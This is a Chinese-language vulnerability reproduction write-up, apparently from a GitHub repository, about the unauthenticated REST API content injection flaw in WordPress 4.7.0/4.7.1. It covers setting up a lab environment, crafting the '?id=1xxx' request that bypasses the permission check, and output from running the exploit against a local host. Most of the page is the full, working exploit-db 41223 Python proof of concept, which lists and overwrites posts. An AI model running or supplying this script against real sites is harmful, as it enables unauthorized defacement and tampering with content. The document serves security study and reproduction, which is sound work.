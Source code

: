 
#### 可能有用的链接

- [WordPress 4.7.0/4.7.1 - Unauthenticated Content Injection (Python) ---- exploit-db](https://www.exploit-db.com/exploits/41223/)
- [WordPress REST API 内容注入漏洞 ---- seebug](https://www.seebug.org/vuldb/ssvid-92637)
- [Content Injection Vulnerability in WordPress ---- sucuri](https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html)
- [WordPress 4.7.0/4.7.1 REST API 内容注入漏洞 ---- GitHub](https://github.com/Medicean/VulApps/tree/master/w/wordpress/5)

#### 漏洞说明:

- 影响版本: 4.7.0/4.7.1
- 在4.7.0版本后,REST API插件的功能被集成到WordPress中,由此也引发了一些安全性问题。
- 导致WordPress所有文章内容可以未经验证被查看，修改，删除，甚至创建新的文章

#### 复现环境

- 1、Ubuntu16.04
	- Apache2
	- wordpress
	- php7.0
	- MySQL 5.7.19
- 2、Apache2 开启rewrite

关键修改:
```bash
sudo a2enmod rewrite  开启Rewrite模块(停用模块，使用 a2dismod)

vim /etc/apache2/apache2.conf 添加:

<Directory /var/www/html/wp4_7>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
</Directory>

```

- 3、Wordpress后台设置 设置 --> 固定链接
	- 修改掉默认固定链接
![修改wp固定链接](images/7.jpg)

- 4、此次访问 http://wp_site/wp-json/wp/v2/posts 可以看到内容

#### 漏洞复现

根据[REST API文档](http://v2.wp-api.org/)修改文章内容的数据包构造如下:

![](images/9.jpg)

不带任何验证信息会提示不允许编辑文章

构造可利用的数据包:
当url为/wp-json/wp/v2/posts/1?id=1xxx时，可以看到，已经成功跳过验证看到文章内容了。

![](images/10.jpg)

#### 漏洞利用

使用exploitdb给的python脚本:
```bash
E:\python-hhf\exploit_db
λ python "wp4_7_ content_injection.py" http://192.168.48.145:85
* Discovering API Endpoint
* API lives at: http://192.168.48.145:85/wp-json/
* Getting available posts
 - Post ID: 1, Title: Hello world!, Url: http://192.168.48.145:85/archives/1

E:\python-hhf\exploit_db
λ python "wp4_7_ content_injection.py" http://192.168.48.145:85 1 1.txt
* Discovering API Endpoint
* API lives at: http://192.168.48.145:85/wp-json/
* Updating post 1
* Post updated. Check it out at http://192.168.48.145:85/archives/1
* Update complete!
```

![](images/6.jpg)
![](images/5.jpg)


#### [Exploit ---- exploit-db-41223](https://www.exploit-db.com/exploits/41223/):  分析

```python
# -*- coding:utf-8 -*-

# 2017 - @leonjza
#
# Wordpress 4.7.0/4.7.1 Unauthenticated Content Injection PoC
# Full bug description: https://blog.sucuri.net/2017/02/content-injection-vulnerability-wordpress-rest-api.html

# Usage example:
#
# List available posts:
#
# $ python inject.py http://localhost:8070/
# * Discovering API Endpoint
# * API lives at: http://localhost:8070/wp-json/
# * Getting available posts
#  - Post ID: 1, Title: test, Url: http://localhost:8070/archives/1
#
# Update post with content from a file:
#
# $ cat content
# foo
#
# $ python inject.py http://localhost:8070/ 1 content
# * Discovering API Endpoint
# * API lives at: http://localhost:8070/wp-json/
# * Updating post 1
# * Post updated. Check it out at http://localhost:8070/archives/1
# * Update complete!

import json
import urllib2
from lxml import etree
import sys
reload(sys)
sys.setdefaultencoding('utf-8')   #智障的python2中文编码



def get_api_url(wordpress_url):  #获取 wordpress api url
    response = urllib2.urlopen(wordpress_url)

    data = etree.HTML(response.read())
    u = data.xpath('//link[@rel="https://api.w.org/"]/@href')[0]

    # check if we have permalinks
    if 'rest_route' in u:
        print(' ! Warning, looks like permalinks are not enabled. This might not work!')

    return u


def get_posts(api_base):   # 从api中获取 wordpress 文章id 以及标题
    respone = urllib2.urlopen(api_base + 'wp/v2/posts')
    posts = json.loads(respone.read())

    for post in posts:
        # post['title']['rendered'] = post["title"]['rendered'].decode('utf-8').encode('utf-8')
        print(' - Post ID: {0}, Title: {1}, Url: {2}'
              .format(post['id'], post['title']['rendered'], post['link']))


def update_post(api_base, post_id, post_content):   # 使用api更新wordpress文章内容
    # more than just the content field can be updated. see the api docs here:
    # https://developer.wordpress.org/rest-api/reference/posts/#update-a-post
    data = json.dumps({
        'content': post_content
    })  # 需要 post 出去的数据

    url = api_base + 'wp/v2/posts/{post_id}/?id={post_id}abc'.format(post_id=post_id)
    req = urllib2.Request(url, data, {'Content-Type': 'application/json'})
    response = urllib2.urlopen(req).read()

    print('* Post updated. Check it out at {0}'.format(json.loads(response)['link']))


def print_usage():  # 打印使用方法
    print('Usage: {0} <url> (optional: <post_id> <file with post_content>)'.format(__file__))


if __name__ == '__main__':

    # ensure we have at least a url
    if len(sys.argv) < 2:
        print_usage()
        sys.exit(1)

    # if we have a post id, we need content too
    if 2 < len(sys.argv) < 4:
        print('Please provide a file with post content with a post id')
        print_usage()
        sys.exit(1)

    print('* Discovering API Endpoint')
    api_url = get_api_url(sys.argv[1])
    print('* API lives at: {0}'.format(api_url))

    # if we only have a url, show the posts we have have
    if len(sys.argv) < 3:
        print('* Getting available posts')
        get_posts(api_url)

        sys.exit(0)

    # if we get here, we have what we need to update a post!
    print('* Updating post {0}'.format(sys.argv[2]))
    with open(sys.argv[3], 'r') as content:
        new_content = content.readlines()

    update_post(api_url, sys.argv[2], ''.join(new_content))

    print('* Update complete!')
```